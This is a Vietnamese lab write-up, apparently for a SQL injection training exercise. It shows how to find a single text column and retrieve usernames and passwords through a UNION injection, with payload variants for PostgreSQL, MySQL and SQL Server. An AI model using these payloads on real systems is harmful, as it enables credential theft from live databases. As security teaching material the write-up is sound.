 ![image](https://github.com/user-attachments/assets/3ba2a7d4-9375-4f09-bfcd-5c036adf61c5)

![image](https://github.com/user-attachments/assets/dd98f6e9-8bca-4a65-b5a0-316fc81bc0eb)

![image](https://github.com/user-attachments/assets/16725c41-dd2f-4fdb-973e-ffab02fa06e3)

Ta xác định được trong câu query có 2 cột.

![image](https://github.com/user-attachments/assets/3c4601e0-fdcd-4b74-84b8-3b49c1ef7bfd)

Tại sao nó lại lỗi :")), có lẽ nào chỉ có 1 cột là string không ?

![image](https://github.com/user-attachments/assets/db5f97ea-89d4-4d62-b68f-22b0d48ebd7f)

Đúng thật.

Vậy giờ ta sẽ có 2 cách, 1 cách là select 2 lần như này, 1 lần username, 1 lần password.

Cách thứ 2 sẽ là dùng toán tử concat operator || để nối giá trị của hai cột username và password trong table users lại với nhau

Vì chỉ có một cột hiển thị, ta cần nối username và password lại thành một chuỗi bằng concat operator (||):

**PostgreSQL, SQLite, Oracle (Dùng || để nối chuỗi)**

```
' UNION SELECT username || ' - ' || password FROM users--
```

**Với MySQL (vì || trong MySQL là toán tử logic, không phải concat)**

```
' UNION SELECT CONCAT(username, ' - ', password) FROM users--
```

**SQL SERVER**

```
' UNION SELECT username + ' - ' + password FROM users--
```

**_Nếu gặp lỗi do NULL_**

Trong SQL Server, nếu một trong hai giá trị username hoặc password là NULL, phép nối chuỗi + có thể trả về NULL toàn bộ chuỗi. Để tránh điều này, dùng ISNULL():

ISNULL(username, 'N/A'): Nếu username bị NULL, thay bằng 'N/A'.

ISNULL(password, 'N/A'): Nếu password bị NULL, thay bằng 'N/A'.

Điều này đảm bảo câu lệnh không bị lỗi NULL và hiển thị đầy đủ kết quả.

```
' UNION SELECT ISNULL(username, 'N/A') + ' - ' + ISNULL(password, 'N/A') FROM users--
```

username || ' - ' || password: Nối username và password bằng dấu - để dễ đọc.

Nếu hệ thống chạy MySQL, thay || bằng CONCAT(username, ' - ', password).

![image](https://github.com/user-attachments/assets/c252b990-1a3c-450e-b90d-21370aab75e8)

Vậy là thành công.
